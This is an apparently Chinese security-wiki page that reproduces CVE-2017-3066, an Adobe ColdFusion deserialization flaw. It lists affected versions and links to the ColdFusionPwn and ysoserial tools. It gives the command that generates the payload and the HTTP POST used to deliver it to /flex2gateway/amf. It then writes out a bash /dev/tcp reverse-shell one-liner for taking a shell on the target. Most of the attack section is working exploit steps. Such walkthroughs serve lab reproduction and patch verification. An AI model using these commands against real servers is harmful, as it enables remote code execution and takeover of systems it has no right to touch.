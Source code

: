 <h1>（CVE-2017-3066）Adobe ColdFusion 反序列化漏洞</h1>
<h2>一、漏洞简介</h2>
<h2>二、漏洞影响</h2>
<p>Adobe ColdFusion (2016 release) Update 3及之前的版本<br>
ColdFusion 11 Update 11及之前的版本<br>
ColdFusion 10 Update 22及之前的版本
</p>
<h2>三、复现过程</h2>
<p>使用<a href="https://github.com/ianxtianxt/ColdFusionPwnn">ColdFusionPwn</a>工具来生成POC。</p>
<p><a href="http://wiki.0-sec.org/download/ColdFusionPwn-0.0.1-SNAPSHOT-all.zip">点击下载ColdFusionPwn</a></p>
<h3>Usage</h3>
<pre><code>java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner [-s|-e] [payload type] '[command]' [outfile]</code></pre>
<p><a href="http://wiki.0-sec.org/download/ysoserial.zip">点击下载ysoserial</a><br>【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字</p>
<pre><code>java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser</code></pre>
<p>生成poc.ser文件后，将POC作为数据包body发送给http://your-ip:8500/flex2gateway/amf，Content-Type为application/x-amf
路径不唯一，目前已收集到的为以下两种路径：<br>
/flex2gateway/amf<br>
/messagebroker/amf</p>
<pre><code>POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853
</code></pre>
<p>[...poc...]</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/Adobe%20ColdFusion/images/img3.png"/>
<h3>关于发送的内容编码问题</h3>
<p>由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200</p>
<h3>正确发送方式为：</h3>
<p>右击选择Paste From File，上传poc.cer文件</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/Adobe%20ColdFusion/images/img4.png"/>
<p>再到Raw界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择Copy to File保存</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/Adobe%20ColdFusion/images/img5.png"/>
<p>进入容器中，发现/tmp/success已成功创建：</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/Adobe%20ColdFusion/images/img6.png"/>
<p>将POC改成<a href="http://www.jackson-t.ca/runtime-exec-payloads.html">反弹命令</a>，成功拿到shell：</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/Adobe%20ColdFusion/images/img7.png"/>
<p>补充一下反弹shell的命令,可以通过<a href="http://www.jackson-t.ca/runtime-exec-payloads.html">http://www.jackson-t.ca/runtime-exec-payloads.html</a>在线转换</p>
<pre><code>bash -i >& /dev/tcp/ip/port 0>&1</code></pre>
<h2>参考链接</h2>
<p>https://vulhub.org/#/environments/coldfusion/CVE-2017-3066/</p>
